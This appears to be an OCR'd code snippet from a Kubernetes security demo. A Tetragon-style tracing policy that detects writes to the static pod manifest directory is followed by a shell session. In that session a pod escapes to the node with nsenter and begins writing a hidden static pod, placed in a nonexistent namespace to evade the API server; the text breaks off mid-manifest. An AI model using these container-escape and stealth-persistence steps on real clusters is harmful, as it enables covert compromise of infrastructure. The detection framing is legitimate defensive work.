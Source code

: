 ```bash
    args:
    - index: 0
      type: "fd"
    selectors:
    - matchPIDs:
      - operator: NotIn
        followForks: true
        isNamespacePID: true
        values:
        - 1
      matchActions:
      - action: UnfollowFD
        argFd: 0
        argName: 0
  - call: "__x64_sys_write"
    syscall: true
    args:
    - index: 0
      type: "fd"
    - index: 1
      type: "char_buf"
      sizeArgIndex: 3
    - index: 2
      type: "size_t"
    selectors:
    - matchPIDs:
      - operator: NotIn
        followForks: true
        isNamespacePID: true
        values:
        - 1
      matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/etc/kubernetes/manifests"
root@server:~# kubectl exec -it sith-infiltrator -- /bin/bash
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# cd /etc/kubernetes/manifests/
ls -la
total 28
drwxr-xr-x 1 root root 4096 Jul  8 08:49 .
drwxr-xr-x 1 root root 4096 Jul  8 08:49 ..
-rw------- 1 root root 2382 Jul  8 08:49 etcd.yaml
-rw------- 1 root root 3873 Jul  8 08:49 kube-apiserver.yaml
-rw------- 1 root root 3405 Jul  8 08:49 kube-controller-manager.yaml
-rw------- 1 root root 1440 Jul  8 08:49 kube-scheduler.yaml
root@kind-control-plane:/etc/kubernetes/manifests# cat << EOF > hack-latest.yaml
apiVersion: v1
kind: Pod
metadata:
  name: hack-latest
  hostNetwork: true
  # define in namespace that doesn't exist so
  # workload is invisible to the API server
  namespace: doesnt-exist
spec:
  containers:
  - name: hack-latest
    image: sublimino/hack:latest
    command: ["/bin/sh"]
    args: ["-c", "while true; do sleep 10;done"]
    securityContext:
```
